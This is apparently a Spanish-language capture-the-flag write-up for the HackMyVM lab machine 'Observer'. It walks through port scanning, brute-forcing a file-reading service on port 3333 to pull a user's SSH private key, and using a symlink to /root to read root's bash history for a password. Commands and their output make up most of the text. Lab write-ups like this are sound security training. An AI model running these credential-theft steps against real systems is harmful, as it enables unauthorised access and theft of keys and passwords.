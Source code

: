 ```yaml
---
layout: post
title: Observer - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Sml \\
**Dificultad**: Fácil

![img](../imgs/write-ups/hackmyvm/observer/observer.png)

## Enumeración

Lo primero es realizar una enumeración de los puertos abiertos.

```
h3rshel@kali:~/Desktop$ sudo nmap -p- 192.168.1.21
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-04 12:07 CEST
Nmap scan report for 192.168.1.21
Host is up (0.00015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3333/tcp open  dec-notes
MAC Address: 08:00:27:97:34:08 (Oracle VirtualBox virtual NIC)
```

### 3333

Utilizando la herramienta **curl** hago una petición al servidor en el puerto **3333**.

```
h3rshel@kali:~/Desktop$ curl 192.168.1.21:3333
OBSERVING FILE: /home/ NOT EXIST 


<!-- KJyiXJrscctNswYNsGRussVmaozFZBHMV -->

h3rshel@kali:~/Desktop$ curl 192.168.1.21:3333/test
OBSERVING FILE: /home/test NOT EXIST


<!-- XVlBzgbaiCMRAjWwhTHctcuAxhxKQFHMV -->
```

Como se puede ver, el servidor intenta leer un archivo dentro de "/home" con la ruta que le hemos pasado.

## Explotación

Mediante **ffuf**, hago un ataque de fuerza bruta para intentar leer claves privadas probando distintos nombres de usuarios.

```
h3rshel@kali:~/Desktop$ ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u "http://192.168.1.21:3333/FUZZ/.ssh/id_rsa" -fw 8 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.1.21:3333/FUZZ/.ssh/id_rsa
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 8
________________________________________________

[Status: 200, Size: 2602, Words: 7, Lines: 39, Duration: 5ms]
    * FUZZ: jan
```
Ha encontrado un usuario!!

```
h3rshel@kali:~/Desktop$ curl 192.168.1.21:3333/jan/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA6Tzy2uBhFIRLYnINwYIinc+8TqNZap0CB7Ol3HSnBK9Ba9pGOSMT
Xy2J8eReFlni3MD5NYpgmA67cJAP3hjL9hDSZK2UaE0yXH4TijjCwy7C4TGlW49M8Mz7b1
LsH5BDUWZKyHG/YRhazCbslVkrVFjK9kxhWrt1inowgv2Ctn4kQWDPj1gPesFOjLUMPxv8
fHoutqwKKMcZ37qePzd7ifP2wiCxlypu0d2z17vblgGjI249E9Aa+/hKHOBc6ayJtwAXwc
ivKmNrJyrSLKo+xIgjF5uV0grej1XM/bXjv39Z8XF9h4FEnsfzUN4MmL+g8oclsaO5wgax
ptRXdZxslsxr4T9AwzeTSDPejR0AzdUk34dYHj2n1bWzGl5bgs3FJWX0yAaLvcc/QuHJyy
[...]
-----END OPENSSH PRIVATE KEY-----
```

## Escalado de privilegios

Me conecto a la máquina utilizando la clave privada.

```
h3rshel@kali:~/Desktop$ ssh jan@192.168.1.21 -i id_rsa   
[...]
Last login: Mon Aug 21 20:21:22 2023 from 192.168.0.100
jan@observer:~$ :)
```

Puedo ejecutar el siguiente comando con permisos de root. No me permite escalar privilegios pero puedo ver una tarea cron que ejecuta "/opt/observer".

```
jan@observer:/opt$ sudo /usr/bin/systemctl -l status
● observer
    State: running
    Units: 235 loaded (incl. loaded aliases)
     Jobs: 0 queued
   Failed: 0 units
    Since: Mon 2023-09-04 12:06:42 CEST; 20min ago
  systemd: 252.12-1~deb12u1
   CGroup: /
           ├─init.scope
           │ └─1 /sbin/init
           ├─system.slice
           │ ├─cron.service
           │ │ ├─428 /usr/sbin/cron -f
           │ │ ├─437 /usr/sbin/CRON -f
           │ │ ├─441 /bin/sh -c /opt/observer          <------ Esta tarea
           │ │ └─442 /opt/observer
           │ ├─dbus.service
           │ │ └─430 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --s>
           │ ├─ifup@enp0s3.service
           │ │ └─376 dhclient -4 -v -i -pf /run/dhclient.enp0s3.pid -lf /var/lib/dhcp/dhclient.enp0s3.leases -I -df>
           │ ├─ssh.service
           │ │ └─448 "sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups"
           │ ├─system-getty.slice
           │ │ └─getty@tty1.service
           │ │   └─446 /sbin/agetty -o "-p -- \\u" --noclear - linux
           │ ├─systemd-journald.service
           │ │ └─214 /lib/systemd/systemd-journald

```

Probablemente el ejecutable **/opt/observer** sea el servicio que se está ejecutando en el puerto 3333, con el cual se pueden leer archivos.

Si este servicio se está ejecutando como usuario **root** es posible usar **soft links** para leer su clave privada u otros archivos.

Con el siguiente comando creo un soft link al directorio /root
```
jan@observer:~$ ln -s /root root
```

Tras probar, descubro que el usuario root no tiene clave id_rsa pero sí que puedo leer su historial de comandos en el que descubro que está guardada su contraseña.

```
h3rshel@kali:~/Desktop$ curl 192.168.1.21:3333/jan/root/.bash_history
ip a
exit
apt-get update && apt-get upgrade
apt-get install sudo
cd
wget https://go.dev/dl/go1.12.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.12.linux-amd64.tar.gz
rm go1.12.linux-amd64.tar.gz 
export PATH=$PATH:/usr/local/go/bin
nano observer.go
go build observer.go 
mv observer /opt
ls -l /opt/observer 
crontab -e
nano root.txt
chmod 600 root.txt 
nano /etc/sudoers
nano /etc/ssh/sshd_config
paswd
fuck************
```

Ahora con la contraseña puedo iniciar sesión con el comando **su**.

```
jan@observer:~$ su root
Contraseña: 
root@observer:/home/jan# :)
```

Muchas gracias a **Sml** por esta máquina.

